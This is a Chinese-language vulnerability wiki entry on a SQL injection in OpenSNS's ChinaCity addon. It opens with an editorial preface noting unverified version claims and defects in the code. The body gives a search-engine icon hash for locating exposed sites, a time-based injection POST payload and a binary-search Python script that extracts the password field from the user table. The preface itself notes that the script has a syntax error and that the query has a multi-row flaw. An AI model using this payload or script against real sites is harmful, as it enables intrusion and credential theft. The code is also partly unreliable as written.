





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：getcity接受pid数组；数据库固定ocenter_ucenter_member单行假设

- **事实待核（1）**：version只OpenSNS，而304给6.1.0，可关联但不能直接泛化全版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **实验改动边界（2）**：Python代码围栏首行中文说明未注释导致语法错；password子查询无WHERE/LIMIT多行会报错。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **结论使用边界（3）**：读取的是password字段未说明哈希，不能直接说账号密码登录；sleep2却&gt;=1秒无基线易误判。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：和304同原语，保留二分脚本但标问题。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下




存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`




其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句




通过构造请求闭合SQL语句，造成SQL注入

```
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```




```python
通过二分法延时注入可以获取用户账号密码，登录后台

import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
